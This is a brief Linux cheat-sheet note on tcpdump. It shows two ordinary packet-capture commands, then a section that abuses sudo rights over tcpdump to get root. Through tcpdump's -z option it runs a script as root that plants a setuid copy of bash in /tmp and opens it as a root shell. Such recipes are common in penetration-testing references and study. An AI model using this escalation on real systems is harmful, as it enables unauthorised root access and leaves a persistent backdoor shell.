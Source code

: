__tags: tcpdump linux tech

#### Use these commands to capture packets and output in pcap format!!!

```
sudo tcpdump -i en1 -n -w test.pcap tcp port 3306 and host 192.168.1.12
```

```
sudo tcpdump -i tun0 -n -w test.pcap tcp port 139
```

#### Use TCPDump to run commands if sudo

```bash
COMMAND='cp /bin/bash /tmp/bash_root && chmod +s /tmp/bash_root'
TF=$(mktemp)
echo "$COMMAND" > $TF
chmod +x $TF
sudo tcpdump -ln -i lo -w /dev/null -W 1 -G 1 -z $TF -Z root
/tmp/bash_root -p
```